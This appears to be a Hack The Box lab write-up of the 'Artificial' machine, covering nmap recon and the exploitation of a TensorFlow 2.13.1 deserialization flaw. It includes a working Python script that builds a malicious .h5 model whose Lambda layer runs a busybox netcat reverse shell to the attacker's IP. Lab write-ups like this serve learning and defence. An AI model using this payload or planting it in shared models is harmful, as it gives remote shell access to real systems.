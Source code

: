starting with initial recon 

```
nmap -sV -sC -oN nmap.txt  -p- 10.10.11.74 --min-rate=5000
Starting Nmap 7.95 ( https://nmap.org ) at 2025-10-17 16:21 CET
Nmap scan report for 10.10.11.74 (10.10.11.74)
Host is up (0.68s latency).
Not shown: 48960 filtered tcp ports (no-response), 16573 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 7c:e4:8d:84:c5:de:91:3a:5a:2b:9d:34:ed:d6:99:17 (RSA)
|   256 83:46:2d:cf:73:6d:28:6f:11:d5:1d:b4:88:20:d6:7c (ECDSA)
|_  256 e3:18:2e:3b:40:61:b4:59:87:e8:4a:29:24:0f:6a:fc (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://artificial.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 218.67 seconds
```

adding the domain to our `/etc/hosts `

`sudo echo "10.10.11.74     artificial.htb" >> /etc/hosts`

simple looking ui 
<img src="https://raw.githubusercontent.com/Baga6312/HTB-Writeups/refs/heads/main/machines/artificial/assets/Pasted image 20251017162502.png">
registering a new account and logging in with it 
<img src="https://raw.githubusercontent.com/Baga6312/HTB-Writeups/refs/heads/main/machines/artificial/assets/Pasted image 20251017162718.png">
this will lead us to the page where it present us with this .. 
<img src="https://raw.githubusercontent.com/Baga6312/HTB-Writeups/refs/heads/main/machines/artificial/assets/Pasted image 20251017162855.png">
checking the `requirement.txt` and `Dockerfile` 

Dockerfile 
```
FROM python:3.8-slim

WORKDIR /code

RUN apt-get update && \
    apt-get install -y curl && \
    curl -k -LO https://files.pythonhosted.org/packages/65/ad/4e090ca3b4de53404df9d1247c8a371346737862cfe539e7516fd23149a4/tensorflow_cpu-2.13.1-cp38-cp38-manylinux_2_17_x86_64.manylinux2014_x86_64.whl && \
    rm -rf /var/lib/apt/lists/*

RUN pip install ./tensorflow_cpu-2.13.1-cp38-cp38-manylinux_2_17_x86_64.manylinux2014_x86_64.whl

ENTRYPOINT ["/bin/bash"]
```

requirements.txt 
```
tensorflow-cpu==2.13.1
```

this version of tensorflow library might have some vurnabilitys .  

after searching i found this 

https://github.com/advisories/GHSA-x4wf-678h-2pmq

looking for POC to recreate the exploit 

https://mastersplinter.work/research/tensorflow-rce/

the idea is to generate a `.h5` model that contains our malicious command so we can import it and get a reverse shell 

to recreate the exploit we need first to install tensorflow on our machine  (which is annoying task) 


```python3 
import tensorflow as tf

def exploit(x):
    import os
    os.system("busybox nc 10.10.15.53 4444 -e /bin/sh")
    return x

model = tf.keras.Sequential()
model.add(tf.keras.layers.Input(shape=(64,)))
model.add(tf.keras.layers.Lambda(exploit))
model.compile()
model.save("exploit.h5")
```

I always use busybox since its found on every linux distro . 

generating our model 
```cmd
python3 exploit.py 
```

opening a listener on our machine 
<img src="https://raw.githubusercontent.com/Baga6312/HTB-Writeups/refs/heads/main/machines/artificial/assets/Pasted image 20251017165134.png">
and finally importing our model will give us a shell 



